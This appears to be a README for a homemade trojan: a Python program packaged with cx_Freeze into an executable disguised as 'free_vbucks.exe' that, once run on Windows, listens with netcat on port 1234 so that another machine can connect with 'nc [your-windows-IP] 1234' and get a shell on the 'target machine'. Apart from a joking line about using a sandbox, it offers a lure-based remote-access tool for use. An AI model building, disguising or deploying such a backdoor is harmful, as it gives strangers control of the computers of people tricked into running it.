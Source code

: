 Pre-requisites:
Have Python and cx_Freeze installed

How to install cx_Freeze:
run "pip install cx_Freeze" in your terminal

1. Open your code editor (or cmd) and run "python setup.py build" in the terminal
2. Open the folder inside the "Build" folder and run the "free_vbucks.exe" in your Windows system
3. Try "nc [your-windows-IP] 1234" on another machine (i.e. Kali Linux)
4. You should be able to spawn a shell on your target machine
5. pls do this using a sandbox 💀

Note: The netcat will run and listen only one time each time you run the executable. To re-enable Netcat to listen for incoming connections, simply execute the executable once more.
